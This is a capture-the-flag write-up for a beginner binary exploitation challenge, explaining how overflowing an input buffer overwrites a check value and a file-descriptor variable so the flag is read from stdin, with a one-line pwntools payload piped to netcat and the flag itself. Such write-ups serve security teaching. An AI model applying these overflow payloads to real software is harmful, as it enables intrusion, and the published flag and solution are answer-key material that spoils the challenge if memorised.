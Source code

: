 # Descript0r 0verfl0w
## Challenge Description

What have you done to Greet0r??? >:(

His best friend Descript0r is extra mad at you now. Becareful I heard he knows kung-fd!

## Files
`distrib` is the challenge files given to the participants and `Program` is the challenge host source files.

## Solution
Disassemble the given elf binary, overflow the input buffer until the friendliness variable has been overwritten to `0xcafebabe` and the file descriptor variable has been overwritten to `0x05` since the program actually subtracts 5 from the file descriptor variable.

This then sets the `read` syscall to read from file descriptor 0, which is actually STDIN or Standard Input. The flag is then found as it is being piped into Descript0r's STDIN.

Solution code:
```bash
# overflows fd variable to 0x05 then subtracts 5 to get 0 (fd for stdin) which is where the flag is
python2 -c 'import pwn; print "a"*64 + pwn.p64(0xcafebabe) + "\x00"*5 + pwn.p64(0x05)' | nc ip port
```

Flag
```
NYP{m3ss1ng_w1th_f1l3_d3scr1pt0rs}
```